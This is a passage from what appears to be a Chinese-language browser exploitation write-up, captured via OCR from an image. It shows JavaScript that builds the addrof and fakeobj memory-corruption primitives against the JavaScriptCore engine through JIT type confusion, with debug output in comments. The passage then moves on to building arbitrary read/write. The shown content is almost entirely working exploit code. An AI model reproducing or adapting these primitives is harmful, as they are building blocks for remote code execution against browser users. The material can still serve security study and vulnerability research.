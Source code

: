 ```javascript
    return visit();
}
let o = {};
let res = primitiveAddrOf(o);
print(res);
//2.3570356407e-314


function primitiveFakeObj(addr) {
    let arr = [1.1, 2.2, 3.3];
    arr.outOfLineProperty = 4.4;

    let value = addr;
    let res = arr[0];

    function assign() {
        arr[0] = value;
    }
    for (let i = 0; i < 0x1000; i++) {
        assign();
    }
    print(describe(arr));
    //Object: 0x11cdc85a0 with butterfly 0x8000f8468 (Structure 0x11cda7c60:[Array, {outOfLineProperty:100}, ArrayWithDouble, Proto:0x11cdb4090, Leaf]), StructureID: 282

    delete arr.outOfLineProperty;
    print(describe(arr));
    //Object: 0x11cdc85a0 with butterfly 0x8000f8468 (Structure 0x11cdf2760:[Array, {}, ArrayWithDouble, Proto:0x11cdb4090]), StructureID: 91

    arr[0] = {};
    print(describe(arr));
    //Object: 0x11cdc85a0 with butterfly 0x8000f8468 (Structure 0x11cdf27d0:[Array, {}, ArrayWithContiguous, Proto:0x11cdb4090]), StructureID: 92

    assign();
    return arr[0];
}
let obj = primitiveFakeObj(res);
print(obj);
//[object Object]
print(describe(obj));
//Object: 0x11c5b0080 with butterfly 0x0 (Structure 0x11c5f1dc0:[Object, {}, NonArray, Proto:0x11c5c8020]), StructureID: 69
```

于是我们有了两个原语，addrof、fakeobj。



### 三、全局读写构造
